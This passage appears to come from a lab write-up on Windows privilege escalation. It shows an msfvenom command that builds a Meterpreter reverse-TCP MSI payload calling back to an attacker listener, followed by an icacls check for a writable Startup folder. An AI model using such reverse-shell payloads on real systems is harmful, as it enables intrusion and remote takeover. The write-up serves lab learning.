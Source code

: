 craft msi payload :

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.0.37 LPORT=7878 -f msi -o setup.msi
```

move it to the machine and run it :

![image](/assets/images/windowsprivescarena/20220425042353.png)

![image](/assets/images/windowsprivescarena/20220425042406.png)

## Privilege Escalation - Startup Applications

- we can search for this attack vector by running :

```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

![image](/assets/images/windowsprivescarena/20220425053053.png)

we can see that Builtin\Users has the **F** flag meaning full control , Built-in user account is **a type of user account that is created during installation**
